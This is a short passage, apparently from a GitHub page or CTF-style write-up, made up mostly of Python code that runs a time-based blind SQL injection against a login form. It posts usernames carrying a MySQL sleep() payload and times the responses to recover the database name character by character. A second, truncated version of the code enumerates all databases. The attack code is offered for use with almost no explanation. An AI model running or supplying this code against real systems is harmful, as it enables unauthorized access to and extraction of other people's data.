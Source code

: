 ```python


def sqli():

    database = ""

    p1 = log.progress("Brute Force")
    p1.status("Starting Attack")


    p2 = log.progress("Database")

    for position in range(1, 20):

        for character in characters:


            post_data = {
                'username' : "admin' and if(substr(database(),%d,1)='%s',sleep(1.5),1)-- -" % (position,character),
                'password' : 'password'

            }

            p1.status(post_data['username'])

            time_start = time.time()

            r = requests.post(login_url, data=post_data)

            time_end = time.time()

            if time_end - time_start > 1.5:
                database += character
                p2.status(database)
                break


if __name__ == '__main__':
    sqli()

```

You can use this other function to get all existance **databases** with a coma, really good represented.


```python

def sqli():

    database = ""

    p1 = log.progress("Brute Force")
    p1.status("Starting Attack")


    p2 = log.progress("Database")
    for db in range(0, 7):

        for position in range(1, 20):

            for character in characters:

```